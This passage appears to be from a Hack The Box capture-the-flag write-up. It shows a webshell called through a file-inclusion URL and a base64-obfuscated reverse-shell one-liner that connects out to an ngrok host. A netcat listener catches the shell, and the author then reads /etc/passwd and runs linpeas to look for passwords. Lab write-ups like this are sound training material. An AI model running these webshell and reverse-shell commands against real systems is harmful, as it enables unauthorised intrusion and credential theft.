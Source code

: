 I included my webshell to this webpage and it's worked 

http://test.htb/index.php?page=Li4vYWRtL3VwbG9hZHMvZWM0ZTViNzFlMjIwMzVhNWNjNDI1MGVlYTFiNWViZWQ=&cmd=id


## To revshell

echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTI4MDIgMD4mMQ==%22%20|%20base64%20-d%20|%20bash


```
─$ nc -lvnp 1337    
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44730
sh: 0: can't access tty; job control turned off
$ 
```


My revshell has been connected so we just need find user password . let we check the user

```
$ cat /etc/passwd | grep /home
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
git:x:115:122:Git Version Control,,,:/home/git:/bin/bash
```

The user is john , git just gitea now we using linpeas to find the password

![](2024-02-09-16-22-07.png)
